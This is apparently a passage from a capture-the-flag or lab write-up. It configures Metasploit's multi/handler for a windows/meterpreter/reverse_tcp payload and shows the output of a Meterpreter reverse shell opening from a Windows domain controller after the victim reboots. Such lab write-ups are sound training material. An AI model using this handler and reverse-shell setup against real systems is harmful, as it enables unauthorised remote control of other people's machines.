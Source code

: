 Set a new multi handler to use `windows/meterpreter/reverse_tcp`

``` sh
use exploit/multi/handler
use windows/meterpreter/reverse_tcp
```

"exploit/multi/handler" output

``` txt
Global
======

No entries in data store.

Module: multi/handler
=====================

Name                    Value
----                    -----
ContextInformationFile
DisablePayloadHandler   false
EnableContextEncoding   false
ExitOnSession           true
LHOST                   10.10.119.134
LPORT                   5555
ListenerTimeout         0
PAYLOAD                 windows/meterpreter/reverse_tcp
VERBOSE                 true
WORKSPACE
WfsDelay                2
```

After a reboot of the victim we get a new shell:

"exploit/multi/handler" output

``` txt
[-] Handler failed to bind to 10.10.119.134:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] 10.10.119.134 - Meterpreter session 3 closed.  Reason: Died

msf6 exploit(multi/handler) > run

[-] Handler failed to bind to 10.10.119.134:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
C:\Users\Administrator\AppData\Local\Temp\[*] Sending stage (175174 bytes) to 10.10.119.134
[*] Meterpreter session 4 opened (10.9.193.173:4444 -> 10.10.119.134:49750) at 2021-09-23 15:45:54 -0400

meterpreter > sysinfo
Computer        : DOMAIN-CONTROLL
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : CONTROLLER
Logged On Users : 9
Meterpreter     : x86/windows
```
